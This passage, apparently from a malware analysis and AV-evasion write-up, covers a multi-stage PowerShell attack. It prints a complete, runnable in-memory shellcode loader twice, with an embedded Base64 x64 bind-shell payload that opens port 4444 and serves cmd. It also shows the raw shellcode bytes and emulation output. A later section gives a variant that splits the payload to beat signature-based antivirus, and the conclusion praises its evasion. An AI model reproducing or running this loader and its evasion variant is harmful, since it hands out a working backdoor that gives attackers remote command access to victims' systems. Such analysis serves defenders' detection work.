*   **Dynamic Function Resolution**: It avoids static analysis of imported functions by dynamically resolving critical Windows API functions (e.g., `VirtualAlloc`, `CreateThread`, `VirtualProtect`, `WaitForSingleObject`). This is done using reflection and custom functions like `paE` (likely for `GetProcAddress` via `GetModuleHandle`) and `vXZ` (for creating delegate types on the fly).
*   **Dynamic Assembly Creation**: The script uses `DefineDynamicAssembly` and `DefineDynamicModule` to create .NET assemblies in memory. This allows it to define and use types, such as delegates for P/Invoke calls, without writing to disk.
*   **Shellcode Handling**: The shellcode is stored as a Base64 encoded string within the script. It\'s decoded and copied into an executable memory region allocated by `VirtualAlloc`. `VirtualProtect` might be used to change memory permissions before execution.

```powershell
function paE {
        Param ($jJ5, $a_TA6)
        $pRE8k = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $pRE8k.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($pRE8k.GetMethod('GetModuleHandle')).Invoke($null, @($jJ5)))), $a_TA6))
}

function vXZ {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $cpn5o,
                [Parameter(Position = 1)] [Type] $ycb = [Void]
        )

        $aGf = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $aGf.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $cpn5o).SetImplementationFlags('Runtime, Managed')
        $aGf.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ycb, $cpn5o).SetImplementationFlags('Runtime, Managed')

        return $aGf.CreateType()
}

[Byte[]]$sSYI = [System.Convert]::FromBase64String("/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11JvndzMl8zMgAAQVZJieZIgeygAQAASYnlSbwCABFcAAAAAEFUSYnkTInxQbpMdyYH/9VMiepoAQEAAFlBuimAawD/1VBQTTHJTTHASP/ASInCSP/ASInBQbrqD9/g/9VIicdqEEFYTIniSIn5QbrC2zdn/9VIMdJIiflBurfpOP//1U0xwEgx0kiJ+UG6dOw74f/VSIn5SInHQbp1bk1h/9VIgcSgAgAASbhjbWQAAAAAAEFQQVBIieJXV1dNMcBqDVlBUOL8ZsdEJFQBAUiNRCQYxgBoSInmVlBBUEFQQVBJ/8BBUEn/yE2JwUyJwUG6ecw/hv/VSDHSSP/Kiw5BugiHHWD/1bvwtaJWQbqmlb2d/9VIg8QoPAZ8CoD74HUFu0cTcm9qAFlBidr/1Q==")
[Uint32]$f21aS = 0
$dQUM = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll VirtualAlloc), (vXZ @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $sSYI.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($sSYI, 0, $dQUM, $sSYI.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll VirtualProtect), (vXZ @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($dQUM, [Uint32]$sSYI.Length, 0x10, [Ref]$f21aS)) -eq $true) {
        $asr = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll CreateThread), (vXZ @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$dQUM,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll WaitForSingleObject), (vXZ @([IntPtr], [Int32]))).Invoke($asr,0xffffffff) | Out-Null
}
```


*Analysis of the second-stage PowerShell script, showing shellcode loading and execution.*

### Shellcode Analysis

The final payload is the shellcode. Analysis of this shellcode reveals its purpose, which is typically to establish a command and control (C2) channel or deploy further malware.

Raw shellcode (partial view):
```
fc 48 83 e4 f0 e8 c0 00 00 00 41 51 41 50 52 51 56 48 31 d2 65 48 8b 52 60 48 8b 52 18 48 8b 52 20 48 8b 72 50 48 0f b7 4a 4a 4d 31 c9 48 31 c0 ac 3c 61 7c 02 2c 20 41 c1 c9 0d 41 01 c1 e2 ed 52 41 51 48 8b 52 20 8b 42 3c 48 01 d0 8b 80 88 00 00 00 48 85 c0 74 67 48 01 d0 50 8b 48 18 44 8b 40 20 49 01 d0 e3 56 48 ff c9 41 8b 34 88 48 01 d6 4d 31 c9 48 31 c0 ac 41 c1 c9 0d 41 01 c1 38 e0 75 f1 4c 03 4c 24 08 45 39 d1 75 d8 58 44 8b 40 24 49 01 d0 66 41 8b 0c 48 44 8b 40 1c 49 01 d0 41 8b 04 88 48 01 d0 41 58 41 58 5e 59 5a 41 58 41 59 41 5a 48 83 ec 20 41 52 ff e0 58 41 59 5a 48 8b 12 e9 57 ff ff ff 5d 49 be 77 73 32 5f 33 32 00 00 41 56 49 89 e6 48 81 ec a0 01 00 00 49 89 e5 49 bc 02 00 11 5c 00 00 00 00 41 54 49 89 e4 4c 89 f1 41 ba 4c 77 26 07 ff d5 4c 89 ea 68 01 01 00 00 59 41 ba 29 80 6b 00 ff d5 50 50 4d 31 c9 4d 31 c0 48 ff c0 48 89 c2 48 ff c0 48 89 c1 41 ba ea 0f df e0 ff d5 48 89 c7 6a 10 41 58 4c 89 e2 48 89 f9 41 ba c2 db 37 67 ff d5 48 31 d2 48 89 f9 41 ba b7 e9 38 ff ff d5 4d 31 c0 48 31 d2 48 89 f9 41 ba 74 ec 3b e1 ff d5 48 89 f9 48 89 c7 41 ba 75 6e 4d 61 ff d5 48 81 c4 a0 02 00 00 49 b8 63 6d 64 00 00 00 00 00 41 50 41 50 48 89 e2 57 57 57 4d 31 c0 6a 0d 59 41 50 e2 fc 66 c7 44 24 54 01 01 48 8d 44 24 18 c6 00 68 48 89 e6 56 50 41 50 41 50 41 50 49 ff c0 41 50 49 ff c8 4d 89 c1 4c 89 c1 41 ba 79 cc 3f 86 ff d5 48 31 d2 48 ff ca 8b 0e 41 ba 08 87 1d 60 ff d5 bb f0 b5 a2 56 41 ba a6 95 bd 9d ff d5 48 83 c4 28 3c 06 7c 0a 80 fb e0 75 05 bb 47 13 72 6f 6a 00 59 41 89 da ff d5
```

Emulation with tools like `speakeasy` can reveal its behavior:
```
speakeasy -t shellcode.bin  -r -a x64 
* exec: shellcode
0x10fe: 'kernel32.LoadLibraryA("ws2_32")' -> 0x78c00000
0x110f: 'ws2_32.WSAStartup(0x101, 0x1203e08)' -> 0x0
0x112b: 'ws2_32.WSASocketA("AF_INET", "SOCK_STREAM", 0x0, 0x0, 0x0, 0x0)' -> 0x4
0x1140: 'ws2_32.bind(0x4, "0.0.0.0:4444", 0x10)' -> 0x0
0x114e: 'ws2_32.listen(0x4, 0x0)' -> 0x0
0x115f: 'ws2_32.accept(0x4, 0x0, 0x0)' -> 0x8
0x116d: 'ws2_32.closesocket(0x4)' -> 0x0
0x11c2: 'kernel32.CreateProcessA(0x0, "cmd", 0x0, 0x0, 0x1, 0x0, 0x0, 0x0, 0x1203f38, 0x1203f20)' -> 0x1
0x11d2: 'kernel32.WaitForSingleObject(0x220, 0xffffffffffffffff)' -> 0x0
0x11df: 'kernel32.GetVersion()' -> 0x1db10106
0x11f9: 'kernel32.ExitProcess(0x0)' -> 0x0
* Finished emulating
```

**Summary of Shellcode Behavior:**
The shellcode executes the following actions:
1.  Loads `ws2_32.dll` (Windows Sockets API).
2.  Initializes Winsock.
3.  Creates a TCP socket.
4.  Binds the socket to listen on all available network interfaces on port 4444.
5.  Accepts an incoming connection on this port.
6.  Closes the original listening socket.
7.  Creates a new `cmd.exe` process, effectively providing a command prompt.
8.  Waits for the `cmd.exe` process to terminate.
9.  Retrieves the operating system version (likely for telemetry or compatibility checks).
10. Exits the current process.

In essence, this shellcode implements a bind shell: it listens on port 4444 and provides an interactive command prompt to any client that connects to it.

### Further Evasion: Splitting the Payload

To make signature-based detection more difficult, the Base64 encoded shellcode within the PowerShell script can be split into multiple string variables. These variables are then concatenated at runtime before the shellcode is decoded and executed.

```powershell
function paE {
        Param ($jJ5, $a_TA6)
        $pRE8k = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

        return $pRE8k.GetMethod('GetProcAddress', [Type[]]@([System.Runtime.InteropServices.HandleRef], [String])).Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($pRE8k.GetMethod('GetModuleHandle')).Invoke($null, @($jJ5)))), $a_TA6))
}

function vXZ {
        Param (
                [Parameter(Position = 0, Mandatory = $True)] [Type[]] $cpn5o,
                [Parameter(Position = 1)] [Type] $ycb = [Void]
        )

        $aGf = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $aGf.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $cpn5o).SetImplementationFlags('Runtime, Managed')
        $aGf.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ycb, $cpn5o).SetImplementationFlags('Runtime, Managed')

        return $aGf.CreateType()
}
$evasionpayload = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/"
$evasionpayload += "4FhBWVpIixLpV////11JvndzMl8zMgAAQVZJieZIgeygAQAASYnlSbwCABFcAAAAAEFUSYnkTInxQbpMdyYH/9VMiepoAQEAAFlBuimAawD/1VBQTTHJTTHASP/ASInCSP/ASInBQbrqD9/g/9VIicdqEEFYTIniSIn5QbrC2zdn/9VIMdJIiflBurfpOP//"
$evasionpayload += "1U0xwEgx0kiJ+UG6dOw74f/VSIn5SInHQbp1bk1h/9VIgcSgAgAASbhjbWQAAAAAAEFQQVBIieJXV1dNMcBqDVlBUOL8ZsdEJFQBAUiNRCQYxgBoSInmVlBBUEFQQVBJ/8BBUEn/yE2JwUyJwUG6ecw/hv/VSDHSSP/Kiw5BugiHHWD/1bvwtaJWQbqmlb2d/9VIg8QoPAZ8CoD74HUFu0cTcm9qAFlBidr/1Q=="
[Byte[]]$sSYI = [System.Convert]::FromBase64String($evasionpayload)
[Uint32]$f21aS = 0
$dQUM = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll VirtualAlloc), (vXZ @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $sSYI.Length,0x3000, 0x04)

[System.Runtime.InteropServices.Marshal]::Copy($sSYI, 0, $dQUM, $sSYI.length)
if (([System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll VirtualProtect), (vXZ @([IntPtr], [UIntPtr], [UInt32], [UInt32].MakeByRefType()) ([Bool]))).Invoke($dQUM, [Uint32]$sSYI.Length, 0x10, [Ref]$f21aS)) -eq $true) {
        $asr = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll CreateThread), (vXZ @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$dQUM,[IntPtr]::Zero,0,[IntPtr]::Zero)
        [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((paE kernel32.dll WaitForSingleObject), (vXZ @([IntPtr], [Int32]))).Invoke($asr,0xffffffff) | Out-Null
}
```

### Conclusion: Evasion Strategy

The PowerShell payload uses a sophisticated, multi-stage strategy to evade detection:
1.  **Initial Obfuscation**: The attack starts with a Base64 encoded command, hiding the initial script from simple static analysis and casual inspection.
2.  **Layered Deobfuscation**: The first-stage script downloads and deobfuscates a second-stage script (using Gzip and Base64 encoding), delaying the exposure of the core malicious logic.
3.  **In-Memory Operations**:
    *   Both the second-stage script and the final shellcode are executed entirely in memory. This bypasses AV scanners that primarily focus on detecting malicious files on the disk.
    *   Dynamic API resolution and in-memory .NET assembly compilation make it harder for AV systems to detect malicious P/Invoke calls through static analysis of import tables.
4.  **Shellcode Obfuscation**: Storing the shellcode as a Base64 string (and potentially splitting it across multiple variables) helps to hide it from basic signature-based detection methods.

These combined techniques significantly improve the payload\'s ability to evade detection by traditional Antivirus solutions.